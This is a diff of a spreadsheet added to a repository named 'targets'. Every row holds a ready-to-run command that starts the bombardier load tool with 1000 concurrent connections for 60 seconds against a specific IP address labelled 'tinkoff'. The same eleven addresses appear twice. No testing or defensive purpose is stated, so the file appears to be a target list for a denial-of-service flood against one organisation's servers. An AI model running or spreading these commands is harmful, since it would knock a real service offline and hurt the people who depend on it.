

Before and after one commit to dmitryshagin/targets, an Excel workbook: test.xlsx, sheet Sheet1, drawn as a sheet; only a part is shown; the shorter side is filled out with more unchanged rows; values as stored, in another font and other column widths than the file's, no borders; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Add files via upload

```diff
--- a/test.xlsx (sheet Sheet1)
+++ b/test.xlsx (sheet Sheet1)
+row 1: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 178.248.239.13&& sleep 5; | 178.248.239.13 | tinkoff
+row 2: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 94.139.106.197&& sleep 5; | 94.139.106.197 | tinkoff
+row 3: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 178.248.239.3&& sleep 5; | 178.248.239.3 | tinkoff
+row 4: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 81.163.21.220&& sleep 5; | 81.163.21.220 | tinkoff
+row 5: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 89.208.136.183&& sleep 5; | 89.208.136.183 | tinkoff
+row 6: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 185.200.243.197&& sleep 5; | 185.200.243.197 | tinkoff
+row 7: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 94.228.114.162&& sleep 5; | 94.228.114.162 | tinkoff
+row 8: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 176.195.155.204&& sleep 5; | 176.195.155.204 | tinkoff
+row 9: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 79.137.239.199&& sleep 5; | 79.137.239.199 | tinkoff
+row 10: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 94.130.129.234&& sleep 5; | 94.130.129.234 | tinkoff
+row 11: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 178.248.236.218&& sleep 5; | 178.248.236.218 | tinkoff
+row 12: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 178.248.239.13&& sleep 5; | 178.248.239.13 | tinkoff
+row 13: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 94.139.106.197&& sleep 5; | 94.139.106.197 | tinkoff
+row 14: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 178.248.239.3&& sleep 5; | 178.248.239.3 | tinkoff
+row 15: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 81.163.21.220&& sleep 5; | 81.163.21.220 | tinkoff
+row 16: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 89.208.136.183&& sleep 5; | 89.208.136.183 | tinkoff
+row 17: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 185.200.243.197&& sleep 5; | 185.200.243.197 | tinkoff
+row 18: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 94.228.114.162&& sleep 5; | 94.228.114.162 | tinkoff
+row 19: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 176.195.155.204&& sleep 5; | 176.195.155.204 | tinkoff
+row 20: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 79.137.239.199&& sleep 5; | 79.137.239.199 | tinkoff
+row 21: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 94.130.129.234&& sleep 5; | 94.130.129.234 | tinkoff
+row 22: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 178.248.236.218&& sleep 5; | 178.248.236.218 | tinkoff
```
